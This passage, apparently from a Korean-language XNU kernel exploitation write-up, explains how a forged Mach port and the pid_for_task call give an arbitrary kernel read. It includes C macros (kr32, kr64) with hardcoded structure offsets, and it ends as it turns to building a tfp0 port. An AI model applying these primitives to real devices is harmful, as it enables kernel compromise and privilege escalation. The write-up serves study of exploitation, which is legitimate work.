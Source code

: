 이 함수의 구현 원리는 다음과 같다.

```c
int pid = get_ipc_port(port)->task->bsd_info->p_pid;
```

그리고 구조체 멤버 접근의 본질은 오프셋을 계산하는 것이다.

```c
int pid = *(*(*(get_ipc_port(port) + offset_task) + offset_bsd_info) + offset_pid)
```

우리가 fakeport를 제어할 수 있기 때문에, 그 `bsd_info`를 `addr - offset_pid`로 변경할 수 있다. 

이때`(*(get_ipc_port(port) + offset_task) + offset_bsd_info) = addr - offset_pid`가 되어, 
위의 공식은 다음과 같이 동등하게 표현된다.

```c
int pid = *(addr - offset_pid + offset_pid) = *addr
```

이 방식을 통해 `addr` 위치의 4바이트 데이터를 안정적으로 읽을 수 있고,
결과적으로 완벽한 커널 읽기 프리미티브를 구현할 수 있다.

```c
uint64_t *read_addr_ptr = (uint64_t *)((uint64_t)fake_task + 0x380);   //p/x offsetof(struct task, bsd_info)

    //0x60 = p/x offsetof(struct proc, p_pid)
#define kr32(addr, value)\
    read(port_fds[0], (void *)fakeport, sizeof(kport_t) + 0x600);\
    *read_addr_ptr = addr - 0x60;\  
    write(port_fds[1], (void *)fakeport, sizeof(kport_t) + 0x600);\
    value = 0x0;\
    ret = pid_for_task(our_port, (int *)&value);
```

먼저 Pipe 버퍼를 통해 `bsd_info`를 수정한 뒤, fakeport 핸들을 `pid_for_task`에 전달하면 지정한 주소의 4바이트 데이터를 읽어올 수 있다.

여러 번의 `kr32` 호출을 조합하면 임의 길이의 데이터를 커널에서 읽는 것이 가능하다.

조합하여 아래 8바이트 커널 읽기 매크로를 만들 수 있다.

```c
    uint32_t read64_tmp;
#define kr64(addr, value)\
    kr32(addr + 0x4, read64_tmp);\
    kr32(addr, value);\
    value = value | ((uint64_t)read64_tmp << 32)
```

### 커널 vm_map을 획득하여 tfp0 포트 생성

현재 프로세스의 task_port를 기반으로 모든 프로세스를 열거할 수 있으며, 이 과정에서 수백 번의 커널 읽기가 필요하다.

따라서 앞서 설명한 안정적인 pid_for_task 함수를 통한 커널 읽기 프리미티브를 활용해야한다.

